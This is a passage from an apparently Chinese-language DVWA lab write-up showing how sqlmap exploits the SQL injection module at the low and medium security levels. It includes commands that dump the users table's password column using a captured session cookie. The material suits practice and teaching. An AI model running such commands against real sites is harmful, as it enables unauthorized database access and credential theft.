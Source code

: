 ![image-20250218204953838](../../_media/image-20250218204953838.png)



爆破密码字段：

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/?id=1&Submit=Submit#" -v 3 --cookie="PHPSESSID=kdrdnbrglpb6o5relntdaiec81; security=low" -D dvwa -T users -C password --dump
```

![image-20250218205548504](../../_media/image-20250218205548504.png)



#### Security Medium

可以看到这个是使用POST方法来进行传递的

抓包发现传递的数据包，然后直接使用sqlmap即可

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" 
```
